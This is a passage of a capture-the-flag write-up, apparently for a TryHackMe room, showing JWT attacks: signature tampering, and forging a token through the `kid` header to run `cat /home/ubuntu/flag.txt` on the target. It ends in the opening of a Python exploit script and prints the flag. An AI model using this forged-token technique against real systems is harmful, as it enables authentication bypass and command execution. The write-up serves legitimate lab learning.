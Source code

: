 The brute force attempt failed, and I was unable to find the valid signing key.

#### Malformed signature

Remove the `jwt.encode()` line, and retrieve the token from the existing cookies instead. There are many ways to malform the signature. For this test, I decided to remove the last character from the token.

<pre class="language-python"><code class="lang-python"><strong>token = self.s.cookies.get('token')
</strong><strong>token = token[:-1] # remove the last character
</strong></code></pre>

Output:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 3. Vulnerable `kid` header value

In our application, a symmetric key is used.  Thus, the `kid` value defines the path used to look up a value to be used as the signing key.

I attempted to change the `kid` value to `188ade1.key`, and encode a new JWT with the content of that file.

```python
 key = '56058354efb3daa97ebab00fabd7a7d7'
 
 headers = {
   "typ": "JWT",
   "alg": "HS256",
   "kid": "188ade1.key"  # changed from '/var/html/mykey.key' -> '188ade1.key'
 }
 
 command = 'cat /home/ubuntu/flag.txt'
```

With the command: `cat /home/ubuntu/flag.txt`, I was able to retrieve the flag!

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

We have found the answer to the final question: "_What is the content of the file /home/ubuntu/flag.txt?_": `THM{RUNANYCOMMAND1337}` .



**FINAL Python script:**

```python
import requests
import jwt

class JWT_KID_EXPLOIT():
    s = requests.Session()
    PORT = 1337
    email = 'tester@hammer.thm'
    password = 'xxx' # value of the new password

    def __init__(self, IP):
        self.IP = IP
        self.URL = f'http://{IP}:{self.PORT}'

    def login(self):
        self.s.post(f'{self.URL}/index.php',
                    headers={'Content-Type': 'application/x-www-form-urlencoded'},
                    data={'email': self.email,
                          'password': self.password})
```